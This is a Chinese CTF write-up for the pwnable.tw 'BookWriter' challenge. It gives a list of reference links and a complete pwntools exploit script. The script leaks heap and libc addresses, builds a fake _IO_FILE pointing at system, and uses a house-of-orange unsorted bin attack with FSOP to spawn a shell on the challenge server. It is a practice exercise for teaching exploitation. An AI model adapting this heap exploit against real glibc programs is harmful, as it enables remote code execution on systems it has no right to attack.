 ```yaml
---
title: 和媳妇一起学Pwn 之 BookWriter
date: 2020-04-04 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  
---
```


> 本题总结点较多，之后总结

- 题目地址：[https://pwnable.tw/challenge/#24](https://pwnable.tw/challenge/#24)

## 参考

- [house of orange 漏洞](http://blog.eonew.cn/archives/1093)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

- [pwnable.tw 1~10题 writeup](https://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/)
- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)

- [pwnable.tw部分writeup(不定期更新)](https://0xffff.one/d/410)
- [pwnable.tw部分writeup(不定期更新)_Vol.2](https://0xffff.one/d/469)

- [BookWriter Writeup](http://weaponx.site/2018/06/11/BookWriter-Writeup-pwnable-tw/)
- [pwnable tw bookwriter writeup](https://sunichi.github.io/2018/07/02/pwnable-tw-bookwriter/)
- [BookWriter 解题思路](http://p4nda.top/2017/12/15/pwnable-tw-bookwriter/)
- [pwnable.tw bookwriter writeup – house of orange 的巧妙利用](http://blog.eonew.cn/archives/1140)
- [pwnable.tw中的bookwriter](https://www.lyyl.online/2019/10/08/pwnable-tw%E4%B8%AD%E7%9A%84bookwriter/)
- [从BookWriter看house_of_orange原理](https://bbs.pediy.com/thread-223334.htm)
- [Pwnable.tw之BookWriter](https://bbs.pediy.com/thread-226694.htm)


## exp

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./bookwriter")
libc   = ELF("./libc_64.so.6")
io     = remote("chall.pwnable.tw",10304)

uu64        = lambda data          :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data    :  (io.sendlineafter(delim, data))
sa          = lambda delim,data    :  (io.sendafter(delim, data))
start       = lambda author        :  (sla("Author :",author))
add         = lambda size,content  :  (sla("choice :","1"),sla("page :",str(size)),sa("Content :",content))
view        = lambda num           :  (sla("choice :","2"),sla("page :",str(num)))
edit        = lambda num,content   :  (sla("choice :","3"),sla("page :",str(num)),sla("Content:",content))
show        = lambda               :  (sla("choice :","4"))

# fill author  
start("x"*60+'xuan')

# overlap and modify top chunk size 
add(0x18,'a')
edit(0,'b'*0x18)
edit(0,'\x00'*0x18+'\xe1\x0f')

# leak heap
show();io.recvuntil("xuan")
heap_addr = uu64(io.recvuntil("\n")[:-1])
sla(") ",'0')

# move top chunk to unsorted bin
add(0x1000,'a')
for i in range(7):
    add(0x18,'xuanxuan')

# leak libc
view(2);io.recvuntil("xuanxuan")
libc.address = uu64(io.readline()[:-1])-0x3c4188

# make fake file 
data = "\x00"*(0x20*7+0x10)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x20*7+0x10 + 0xd8 + 0x8)+p64(libc.symbols['system'])*4
edit(0,data+payload)

# use unsorted bin attack and FSOP to getshell
sla("choice :","1");sla("page :",str(0x10))
io.interactive()
```